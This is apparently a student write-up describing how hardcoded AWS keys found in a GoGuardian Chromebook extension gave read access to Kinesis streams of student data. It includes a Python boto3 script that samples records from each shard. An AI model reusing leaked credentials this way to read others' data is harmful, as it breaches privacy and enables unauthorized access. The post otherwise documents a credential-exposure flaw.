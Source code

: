 Our investigation started with looking for the source of the management
software. It was quite obvious that there was such software installed on the
Chromebooks, as attempting to access certain sites (such as the beloved
[slither.io][1]) were blocked locally. Furthermore, some of the more
technologically-savvy teachers had begun to utilize the classroom-facing
features of the software, and it is there that we learned that the software was
developed by GoGuardian. However, there were no extensions proudly labelled
"GoGuardian" or "Chromebook Management" so we focused on the two extensions that
came preinstalled with each Chromebook. Hidden in the minified source of one of
these extensions was a call to the AWS javascript client which included an
`accessKeyId` and `secretAccessKey`. This seemed like a promising start, so we
tried to find looking for what these keys had access to.

[1]: http://slither.io/

Setting up the AWS cli and plugging in the discovered IAM keys revealed two
services we had access to: dynamodb and kinesis. We only had readonly access to
dynamodb and the data looked uninteresting so we moved on to kinesis. Although
it took some reading and fiddling trying to figure out what kinesis actually did
and how to use it we eventually found we had the ability to read from streams of
student data spread across several so-called "shards." The cli proved
ineffective at sampling the data passing through the shards so I wrote the
following script to assist us (apologies for code quality).

```python
import boto3
import json
import sys

strName = sys.argv[1]

client = boto3.client("kinesis");

response0 = client.describe_stream(
        StreamName=strName
        )
print("Found an "+response0["StreamDescription"]["StreamStatus"]+" stream!")
print("Stream has "+str(len(response0["StreamDescription"]["Shards"]))+" shards.")
print("Retention Period: "+str(response0["StreamDescription"]["RetentionPeriodHours"])+" hours.")
for s in response0["StreamDescription"]["Shards"]:
    print("  Shard: "+s["ShardId"])
    response1 = client.get_shard_iterator(
            StreamName=strName,
            ShardId=s["ShardId"],
            ShardIteratorType="LATEST",
            )
    shard = response1["ShardIterator"];
    response2 = client.get_records(
            ShardIterator=shard,
            Limit=1,
            )
    records = response2["Records"]
    if ( len(records) < 1 ):
        print("No records in shard.")
        continue
    data = records[0]["Data"]
    print( data )
```


[0]: https://www.morrisschooldistrict.org/domain/215